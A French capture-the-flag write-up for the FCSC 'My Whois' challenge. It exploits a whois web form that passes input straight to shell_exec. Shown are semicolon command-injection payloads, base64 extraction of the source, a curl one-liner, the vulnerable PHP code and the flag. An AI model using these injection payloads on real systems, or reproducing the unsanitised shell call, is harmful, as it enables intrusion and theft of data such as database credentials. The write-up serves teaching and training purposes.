







# My Whois

catégorie | points
:---: | :---:
misc | 25

## 0x0 Intro

>Nous avons mis en place un service en ligne faisant de la recherche de nom de domaine. Pouvez-vous accédez à son code source ?
>
>http:\//challenges1.france-cybersecurity-challenge.fr:7001

## 0x1 Explications

Quelques bases en linux vous serons nécessaire pour réaliser ce challenge.
Nous allors jouer avec la ligne de commande, et je vous montrerai trois façons 
de valider ce challenge.



## 0x2 Reconnaissance

Nous allons commencer par tester le service en question, voir comme il fonctionne.



Nous avons bien le retour du whois comme nous l'aurions eu en tapant la commande
suivante sous linux:

```bash
whois blog.caturday-lovers.fr.nf
```

Nous pouvons donc supposer que notre demande est redirigée vers un shell, dont 
la sortie nous sera redirigée sur la page.

Pour tester cela, nous allons faire un simple **ls -alh** qui nous listera les 
fichiers présent dans le répertoire en cours, et qui sait, peut-être voir notre 
fichier à sourcer.



## 0x3 Exploitation

C'est bien ce que nous supposions, le site nous redirige la sortie d'un terminal.
Nous allons pouvoir faire ce que nous voulons de lui.

### 0x3-0 Solution 1, tout via le site

Nous savons que nous cherchons un flag dans le fichier index.php, nous avons 
sous linux une armada d'outils pour le faire, mais j'en aime un tout particulièrement,
c'est GREP.

Avec GREP nous pouvons rechercher un pattern particulier, et c'est ce que nous
allons faire ici.

Nous savons que le format des flags est FCSC {xxxx} où "xxxx" est une chaîne 
contenant des caractères ASCII imprimables. Avec Grep, nous pouvons le faire 
comme ceci:

```bash
grep -o -E "FCSC{.*?}"
```

L'option -o pour n'afficher que le résultat, et -E pour rechercher le pattern 
donné entre guillemets. La signification de **.\*?** est la suivante:

**.** = un caractère

**\*** = répété autant de fois

**?** = jusqu'au dernier caractère du pattern.

La commande à passer dans la box est donc :

```bash
; grep -E "FCSC{.*?}" index.php
```

Le **;** au début est important, c'est un opérateur de liaison qui va dire

> dès que la première commande est finie, enchaine sur la suivante

Une liste d'opérateurs est disponible [ici](https://linuxhint.com/bash_operator_examples/)

Le résultat de la commande est:



### 0x3-1 Solution 2, extraction via base64

Que ce passerait-il si nous avions fait un: 

```bash
cat index.php
```
~~La  réponse n'est pas forcément celle attendue, en effet, le serveur va 
interpréter le code sur certaines parties, et donc le rendre illisible.~~

Précision de la part de ribt (merci à toi)

>En effet sur ta page tu vois plein de blancs mais ça n'est pas parce que le serveur l'exécute au contraire c'est ton navigateur qui attend du code HTML alors il te montre pas les <?php ... ?>. Tu avais juste à faire clic droit, "voir le code source" et tu aurais vu le PHP (probablement en rouge d'ailleurs).
>D'ailleurs tu vois bien que le serveur envoie le code puisque le curl avec cat index.php fonctionne



Une des solutions, qui est utilisée en redteam pour extraire des données, c'est
l'utilisation de l'encodage base64, l'avantage, c'est qu'il est reversible et
qu'il conserve l'intégrité du document.

Il donne un bloc qui permet l'extraction sans être interprété, et de le décoder
ensuite sur sa machine:



Il ne vous reste plus qu'a le copier et le coller dans  un document sur votre 
machine, et d'utiliser la fonction de décodage native dans votre shell:

```bash
cat base64.txt | base64 -d 
```

ou comme sur ma machine avec un alias

```bash
cat base64.txt | decode64
```

La moulinette passée, vous accédez à la source de la page:

```php

<?php
  
  /*
  ** The flag is:
  ** FCSC{2e3405155d63a7d82f215d17232ea102314509ecbe90d605cf8be26f4639153b}
  */

  ini_set('display_errors', 0);
  ini_set('display_startup_errors', 0);
  error_reporting(0);

  abstract class Command {
    public static function whois($domain) {
        $cmd = "/usr/bin/whois $domain";
        return shell_exec($cmd);
    }
  }
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">

    <title>MyWhois</title>

    <!-- Bootstrap core CSS -->
    <link href="css/bootstrap.min.css" rel="stylesheet">
  </head>

  <body>

    <nav class="navbar navbar-expand-md navbar-dark fixed-top bg-dark">
      <a class="navbar-brand" href="index.php">MyWhois</a>
    </nav>

    <main role="main" class="container">
      <div class="jumbotron">
        <?php
          if(isset($_GET['domain']) && $_GET['domain'] !== ''){
            echo '<h1>Result: ' . $_GET['domain'] . '</h1><br>';
            echo '<pre>';
            echo Command::whois($_GET['domain']);
            echo '</pre>';
          } else {
        ?>
          <h1>MyWhois</h1>
          <p class="lead" style="margin-bottom:0px;">
            You custom whois tool!
          </p>
          <form action="index.php" method="get">
            <div class="row">
              <div class="col-sm">
                <div class="input-group mb-3">
                  <div class="input-group-prepend">
                    <span class="input-group-text" id="head-suffix">Domain</span>
                  </div>
                  <input type="text" class="form-control" placeholder="ssi.gouv.fr" id="domain" name="domain" value="">
                </div>
              </div>
            </div>
            <center>
              <button type="submit" class="btn btn-primary">Whois</button>
            </center>
          </form>
        <?php
          }
        ?>
      </div>
    </main>
  </body>
</html>
```

Il ne reste plus qu'a chercher le commentaire.

### 0x3-2 Solution 3, la ligne de commande et curl

La dernière solution proposée, est à base de ligne de commande.
Lors des précédentes méthodes, vous vous êtes peut-être aperçu que l'adresse
changeait dynamiquement avec nos requetes.

Nous pouvons utiliser ce vecteur pour réaliser une exfiltration en une seule 
ligne de commande:

```bash
curl http://challenges1.france-cybersecurity-challenge.fr:7001/index.php?domain=%3Bcat+index.php | grep -o -E "FCSC{.*?}"
```


## 0x4 TL;DR

Dans cet exercice, nous avons abusé une requête qui n'était pas sécurisée, et 
qui nous à donné le champ libre pour une [Execution de code à distance](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

Une fois le code executé, nous avons eu au choix:

* la possibilité d'afficher le flag sur la page
* extraire le code de la page web (utile pour voler les IDs MySQL) via base64
* utiliser curl et une ligne de commande unique afin de parser la page récupérer le flag.
